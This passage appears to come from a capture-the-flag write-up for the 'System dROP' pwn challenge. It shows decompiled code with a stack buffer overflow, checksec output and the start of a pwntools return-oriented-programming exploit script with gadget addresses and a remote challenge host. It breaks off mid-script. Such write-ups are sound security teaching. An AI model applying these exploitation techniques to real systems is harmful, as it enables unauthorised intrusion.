 ```python
    p.sendline("-130676 -2")
    p.sendlineafter("> ","4")
    p.sendlineafter("> ",payload)

    p.interactive()

if __name__=="__main__":
    exploit()
```

# System dROP

Using Ghidra
```c
undefined8 main(void)

{
  undefined local_28 [32];
  
  alarm(0xf);	
  read(0,local_28,0x100);
  return 1;
}
```
It looks like we have a pretty generous BOF.
The only mitigation is a non-exec stack.
```bash
ubuntu@ubuntu:~/Desktop/cyber_apocalypse$ checksec --file=./system_drop
[*] '/home/ubuntu/Desktop/cyber_apocalypse/system_drop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
But we find no useful functions to leak libc, we only have read() and alarm()

To search for example for a pointer to a pointer
```bash
gef > search-pattern 0x400560
```

```python
#!/usr/bin/python3

from pwn import *

elf = ELF("./system_drop")

IP = '139.59.174.238'
port = 31089
context.binary = './system_drop'
#context.log_level = 'debug'
# it is a 64 bit, little endian

debug = 0
offset = 40
padding = b'A'*offset

pop_rdi = pack(0x4005d3)
pop_rsi_r15 = pack(0x4005d1)
pop_r15 = pack(0x4005d2)

syscall = 0x40053b
syscall_func = 0x400537
```